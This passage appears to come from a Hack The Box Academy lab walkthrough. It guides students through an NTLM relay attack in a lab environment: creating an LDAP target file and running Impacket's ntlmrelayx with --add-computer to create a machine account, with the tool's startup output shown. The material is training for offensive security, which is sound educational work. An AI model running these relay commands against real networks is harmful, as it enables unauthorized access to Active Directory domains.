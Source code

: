Right after students have started `Responder`, they will have to establish a second SSH session to the spawned target. In the second SSH session, students will have to create a target file containing the `172.16.117.3` host.

Code: shell

```shell
echo "ldap://172.16.117.3" > target.txt
cat target.txt
```

```shell-session
htb-student@ubuntu:~$ echo "ldap://172.16.117.3" > target.txt
htb-student@ubuntu:~$ cat target.txt 
ldap://172.16.117.3
```

Once they have created the `target.txt` file containing the host, students will have to start `ntlmrelayx` as the `root` user or using `sudo`, with the `-tf` target file option and specifying the `target.txt` file, `-smb2support` option providing `SMBv2` support for hosts that require it, `--no-da` option to not attempt to add a Domain Admin, `--no-acl` option to disable ACL attacks, and the `--add-computer` option followed by a computer name of choice.

Code: shell

```shell
sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"

[sudo] password for htb-student: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
